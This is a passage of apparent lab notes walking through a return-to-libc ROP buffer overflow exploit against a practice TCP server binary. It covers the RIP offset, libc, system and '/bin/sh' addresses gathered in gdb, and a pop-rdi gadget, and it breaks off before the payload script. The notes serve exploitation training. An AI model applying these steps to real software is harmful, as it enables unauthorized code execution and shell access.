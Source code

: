 

Error Encountered: Program ran continuously without crashing.
Cause: Input was not processed or buffer was larger than expected.
Resolution: Appended \n and tested larger patterns (up to 2000 bytes).


Result: Crash with RIP overwritten (e.g., 0x4342414342414342).
Calculate Offset (On Kali):msf-pattern_offset -q 4342414342414342


Output: Exact match at offset 128.



2. Locate Libc Addresses
Find the base address of libc, system, and /bin/sh.
Commands:
gdb ./tcpserver-nonexecstack
(gdb) break main
(gdb) run
(gdb) info proc mappings
(gdb) print system
(gdb) find &system,+9999999,"/bin/sh"

Details:

Output:
libc base: 0x7ffff7dc0000
system: 0x7ffff7e1f3a0
/bin/sh: 0x7ffff7f5e8b4


Error Encountered: /bin/sh string not found in libc.
Cause: String may not be present in some libc versions.
Resolution: Set environment variable and searched stack:export SHELL=/bin/sh
gdb ./tcpserver-nonexecstack
(gdb) find 0x7ffffff00000,0x7ffffffff000,"/bin/sh"





3. Find ROP Gadgets
Identify a pop %rdi; ret gadget to set RDI to /bin/sh for system.
Commands:
pip install ropgadget
ldd tcpserver-nonexecstack  # Find /lib64/libc.so.6
ROPgadget --binary /lib64/libc.so.6 --only "pop|ret" > gadgets.txt

Details:

Found gadget: 0x0002155f : pop %rdi ; ret.
Absolute address: 0x7ffff7dc0000 + 0x0002155f = 0x7ffff7de155f.
Purpose: Sets RDI to /bin/sh address before calling system.

4. Craft and Send the ROP Payload
Create a payload: [padding] + [pop %rdi; ret] + [/bin/sh] + [system].
Command:
nano rop_exploit.py
